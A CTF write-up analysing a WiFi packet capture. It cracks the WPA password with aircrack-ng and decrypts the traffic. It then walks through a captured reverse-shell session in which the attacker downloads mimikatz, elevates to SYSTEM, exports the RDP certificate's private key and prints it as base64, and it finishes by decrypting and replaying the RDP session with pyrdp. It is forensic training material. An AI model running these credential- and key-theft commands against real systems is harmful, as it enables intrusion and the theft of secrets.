

# The Return of the Yeti


## The Yeti Speaks
Oi! Gather 'round and let me spin ye a frosty tale. So there I was, the Bandit Yeti, just wakin' up in me icy den, when me eyes catch a bit o' news that set me a grinnin' like a Cheshire cat. Seems the Best Festival Company is mixin' up with this South Pole workshop-as-a-service AntarctiCrafts. Me brain started churnin' like a blizzard. Maybe it's a chance to give McSkidy a taste of her own medicine.

Been sniffin' around for a while, and who do I find? A shadowy character, goes by the name Van Spy. Nobody knows the bloke, but he's keen to help me break into their network. With McSkidy and her crew lockin' down their servers tighter than a walrus in a wetsuit, I needed all the help I could get. So, now I wait.

Then, bam! Van Spy buzzes me this mornin'. Turns out, one of McSkidy's servers at AntarctiCrafts has gone kaput. The elves, in a mad rush 'cause of the merger, grabbed an old PC used by some intern and hooked it up, no fuss. Talk about a lucky break! Van Spy's got a hunch this intern's a bit of a slacker, so crackin' the password was a breeze. "BFC123", and we're in. He planted a sneaky backdoor and even snagged some WiFi chit-chat thinkin' it might come in handy.

But here's the clincher: as Van Spy's dishin' out the dirt, he realizes he's not alone. Elves everywhere! I hear him whisper, all hush-hush, "I think they're onto me! I'm sendin' you the goods now... Gotta leg it!" And just as he's scramblin', ding! An email lands in my inbox. The plot thickens, eh?

### Files
* VanSpy.pcapng

### Questions
1. What's the name of the WiFi network in the PCAP?
2. What's the password to access the WiFi network?
3. What suspicious tool is used by the attacker to extract a juicy file from the server?
4. What is the case number assigned by the CyberPolice to the issues reported by McSkidy?
5. What is the content of the yetikey1.txt file?

## Writeup

### Initial PCAP Inspecion

Opening the PCAP in Wireshark, you can clearly see in the 802.11 beacon frames the SSID for the WiFi network.  First question, answered!

### WPA Password
Next, let's try and crack the WPA password using `aircrack-ng`.  Hopefully there's at least one authentication handshake that was captured!
```
aircrack-ng VanSpy.pcapng -w /usr/share/wordlists/rockyou.txt

                               Aircrack-ng 1.7 

      [00:00:41] 35185/14344392 keys tested (850.34 k/s) 

      Time left: 4 hours, 40 minutes, 27 seconds                 0.25%

                           KEY FOUND! [ ********* ]


      Master Key     : A8 3F 1D 1D 1D 1F 2D 06 8E D4 47 CE E9 FD 3A AA 
                       B2 86 42 89 FA F8 49 93 D7 C1 A0 29 97 3D 44 9F 

      Transient Key  : 77 1D BE 72 52 FD FF 30 4D 54 0A 82 D9 83 87 F1 
                       10 AC 7B 70 B9 BF 9E D8 22 D8 C4 24 08 B5 BB EB 
                       DD F2 C2 F4 2A 27 AA 24 81 FA 38 12 C3 42 F1 B3 
                       12 0C E1 16 71 4F D1 90 1C 7B 0F AF CE 67 29 02 

      EAPOL HMAC     : C1 0A 70 D9 65 94 5B 57 F2 98 8A E0 FC FD 2B 22 
```
And voila, we have our WPA password and answer to the second question.

### Further PCAP Analysis
With the WPA password, we can further analyze the PCAP.  Go to Wireshark Preferences, then Protocols, then IEEE 802.11.  On that screen, click "Edit" next to "Decryption Keys".  Hit the "+" symbol, and add the following: `wpa-pwd:$PASSWORD_FROM_ABOVE`

Now the packets should refresh, and we aught to see more than just 802.11 frames in the packet capture.  The first two things I check for initial triage are the Protocol Hierarchy and Conversations (under the Statistics menu).  This allows be a broad look at the capture to determine what my next area(s) of emphasis will be.  A few things stand out to me:

1. **A lot of ICMP traffic.** After a bit of inspection, doesn't look like a covert channel. Nothing stands out as odd.
2. **A lot of TLS tied to RDP.** Not a lot we can do with this (yet), since it's all encrypted.
3. **TCP conversations happening on port 4444.** If you've done a lot of CTFs, you'd know that port 4444 is quite common in security tools. It's also just a strange port worth inspecting in general.

Let's adjust our Wireshark filter to `tcp.port == 4444` and see what we find.  Inspecting the TCP streams, we can see some interesting traffic:
```
Windows PowerShell running as user Administrator on INTERN-PC
Copyright (C) Microsoft Corporation. All rights reserved.


PS C:\Users\Administrator> PS C:\Users\Administrator> 
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----       11/23/2023   9:47 PM                .ssh                                             
d-r---        3/17/2021   3:13 PM                3D Objects                                       
d-r---        3/17/2021   3:13 PM                Contacts                                         
d-r---       11/25/2023   2:12 PM                Desktop                                          
d-r---        3/17/2021   3:13 PM                Documents                                        
d-r---       11/24/2023  10:53 PM                Downloads                                        
d-r---        3/17/2021   3:13 PM                Favorites                                        
d-r---        3/17/2021   3:13 PM                Links                                            
d-r---        3/17/2021   3:13 PM                Music                                            
d-r---       11/24/2023  10:44 PM                Pictures                                         
d-r---        3/17/2021   3:13 PM                Saved Games                                      
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      


PS C:\Users\Administrator> whoami
intern-pc\administrator
PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
PS C:\Users\Administrator> Expand-Archive .\mimi.zip
PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
 * System Store  : 'LOCAL_MACHINE' (0x00020000)
 * Store         : 'Remote Desktop'

 0. INTERN-PC
    Subject  : CN=INTERN-PC
    Issuer   : CN=INTERN-PC
    Serial   : ffb1d93a1df0324cadd5e13f3f9f1b51
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 11/22/2023 9:18:19 PM -> 5/23/2024 9:18:19 PM
    Hash SHA1: a0168513fd57577ecc0204f01441a3bd5401ada7
	Key Container  : TSSecKeySet1
	Provider       : Microsoft Enhanced Cryptographic Provider v1.0
	Provider type  : RSA_FULL (1)
	Type           : AT_KEYEXCHANGE (0x00000001)
	|Provider name : Microsoft Enhanced Cryptographic Provider v1.0
	|Key Container : TSSecKeySet1
	|Unique name   : f686aace6942fb7f7ceb231212eef4a4_c5d2b969-b61a-4159-8f78-6391a1c805db
	|Implementation: CRYPT_IMPL_SOFTWARE ; 
	Algorithm      : CALG_RSA_KEYX
	Key size       : 2048 (0x00000800)
	Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
	Exportable key : NO
	Public export  : OK - 'LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.der'
	Private export : OK - 'LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx'


mimikatz(commandline) # exit
Bye!
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----       11/23/2023   9:47 PM                .ssh                                             
d-r---        3/17/2021   3:13 PM                3D Objects                                       
d-r---        3/17/2021   3:13 PM                Contacts                                         
d-r---       11/25/2023   2:12 PM                Desktop                                          
d-r---        3/17/2021   3:13 PM                Documents                                        
d-r---       11/24/2023  10:53 PM                Downloads                                        
d-r---        3/17/2021   3:13 PM                Favorites                                        
d-r---        3/17/2021   3:13 PM                Links                                            
d-----       11/25/2023   2:56 PM                mimi                                             
d-r---        3/17/2021   3:13 PM                Music                                            
d-r---       11/24/2023  10:44 PM                Pictures                                         
d-r---        3/17/2021   3:13 PM                Saved Games                                      
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   2:56 PM            730 LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.der     
-a----       11/25/2023   2:56 PM           2493 LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx     
-a----       11/25/2023   2:56 PM        1206166 mimi.zip                                         
-a----        9/19/2022   4:44 PM        1355264 mimikatz.exe                                     
-a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      


PS C:\Users\Administrator> [Convert]::ToBase64String([IO.File]::ReadAllBytes("/users/administrator/LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx"))
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
PS C:\Users\Administrator> exit
```
Seems we just found the answer to the third question, the attacker extracted a "juicy" file (encryption certificate).

### Decrypt the TLS/RDP
In the last lines from above, we see the attacker converted the RDP encryption key to base64: `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`

I had some issues converting this base64 string back to a binary using native Linux tools, so figured I'd use CyberChef.  For some reason, CyberChef worked to convert the base64 back to `LOCAL_MACHINE_Remote Desktop_0_INTERN-PC.pfx`.

We can use this file to further decrypt the TLS packets in Wireshark.  Much like we did before with the WPA password, go to Preferences -> Protocols -> TLS and click "Edit" next to the "RSA keys list".  Click the "+" and add the following:
```IP address: any
Port: 3389
Protocol: tpkt
Key File: <.pfx file location>
Password: mimikatz
```
For clarity, we chose 3389 because it's the standard RDP port.  Also when using mimikatz to extract certificates as the attacker did, the password is `mimikatz`.

### Analyze the RDP
Now that we can see the RDP traffic clearly, we need a way to make sense of it all.  After a few Google searches, I came across the following Github repository:

https://github.com/GoSecure/pyrdp

From the repo description, looks like we can feed the tools a PCAP with RDP data and watch a replay.  Perfect!

First step, export the PCAP so that the packets are decrypted (802.11 and TLS).  For this step in Wireshark, go to File -> Export PDUs to File and then select "OSI Layer 7". This is the .pcap file you'll use with pyrdp.

Next, clone the pyrdp repo, and follow the instructions on Github for installation.

`pyrdp-convert.py --src 10.0.0.2 -o VanSpy-PDUs.pyrdp VanSpy-PDUs.pcap`

`pyrdp-player.py VanSpy-PDUs.pyrdp`




Now simply watch the RDP replay for the last two flags.
